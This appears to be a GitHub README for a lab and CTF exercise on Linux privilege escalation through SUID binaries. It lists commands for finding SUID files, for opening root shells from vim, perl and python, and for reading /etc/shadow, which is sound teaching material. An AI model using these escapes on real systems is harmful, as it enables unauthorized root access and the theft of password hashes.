 Linux Privilege Escalation via SUID Binaries This document provides hands-on examples of privilege escalation in Linux using SUID binaries such as vim, perl, and python. It includes enumeration steps (find, whoami, id, netstat), explains their purpose, and highlights safe exploitation methods useful in lab and CTF environments.

Learning Objectives

Identify and exploit SUID binaries for privilege escalation
Confirm root access using system enumeration commands
Read sensitive files like /etc/shadow post-exploitation
Discover active services with netstat
Practice safe lab-based privilege escalation
Key Commands

find / -perm -4000 2>/dev/null

vim -c ':!/bin/sh'

perl -e 'exec "/bin/sh";'

python -c 'import os; os.system("/bin/sh")'

whoami, id

cat /etc/passwd, cat /etc/shadow

netstat -tulnp

MOREOVER

step by step commands are given below the pdf



[Linux_PrivEsc_SUID_Albaloshi.pdf.pdf](https://github.com/user-attachments/files/21915553/Linux_PrivEsc_SUID_Albaloshi.pdf.pdf)
